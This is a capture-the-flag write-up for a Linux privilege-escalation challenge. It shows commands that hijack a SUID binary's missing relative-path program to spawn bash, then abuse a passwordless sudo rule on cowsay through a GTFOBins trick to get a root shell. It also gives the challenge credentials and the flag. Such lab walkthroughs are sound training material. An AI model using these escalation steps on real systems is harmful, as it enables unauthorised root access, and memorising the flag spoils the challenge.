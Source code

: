# Undercover#2

### Category

System

### Description

You have been recruited by the CEO of Hero & Co. to test their security. But before handing you out the assignement, the asked you have to prove yourself, and escalate your privileges on this test system all the way to root.

The base credentials are:
```
user1:password123
```

Format : **Hero{flag}**<br>
Author : **Log_s**

### Write up

As the flag suggest, this is a very basic privilege escalation exercise.

First, user1 is allowed to run the `hmmm` binary which is owned by user2, and has the SUID bit set.
```
user1@3d3311eb9fad:~$ ls -l hmmm 
-rwsrwsr-x 1 user2 user2 915136 May  8 21:48 hmmm
```

If we run it, we see the ruid is set to uid, and it runs and inexisting `WTFFFFF` program.
```
user1@30b4cc252fc8:~$ ./hmmm 
Not sure why, but I'm gonna set my ruid to my uid.
Not sure why, but I'm gonna run the 'WTFFFFF' program right now.
sh: 1: ./WTFFFFF: not found
```

Let's create that program.
```
user1@30b4cc252fc8:~$ echo "/bin/bash" > WTFFFFF && chmod +x WTFFFFF
user1@30b4cc252fc8:~$ ./hmmm 
Not sure why, but I'm gonna set my ruid to my uid.
Not sure why, but I'm gonna run the 'WTFFFFF' program right now.
user2@30b4cc252fc8:~$ whoami
user2
```

Here we go !

Next up, let's see which sudo rights user2 has.
```
user2@30b4cc252fc8:~$ sudo -l
Matching Defaults entries for user2 on 30b4cc252fc8:
    env_reset, mail_badpass,
    secure_path=/usr/local/sbin\:/usr/local/bin\:/usr/sbin\:/usr/bin\:/sbin\:/bin\:/snap/bin

User user2 may run the following commands on 30b4cc252fc8:
    (root) NOPASSWD: /usr/games/cowsay
```

user2 is allowed to run the very usefull utilitary program `cowsay` as root, without password.

https://gtfobins.github.io/ states
```
TF=$(mktemp)
echo 'exec "/bin/sh";' >$TF
sudo cowsay -f $TF x
```

Let's run this by replacing cowsay with it's absolute path.
```
user2@30b4cc252fc8:~$ TF=$(mktemp)
user2@30b4cc252fc8:~$ echo 'exec "/bin/sh";' >$TF
user2@30b4cc252fc8:~$ sudo $(which cowsay) -f $TF x
# id
uid=0(root) gid=0(root) groups=0(root)
# cat /root/flag.txt	
Hero{B4ck_2_b4s1cs}
```
 Congratz !

### Flag

```Hero{B4ck_2_b4s1cs}```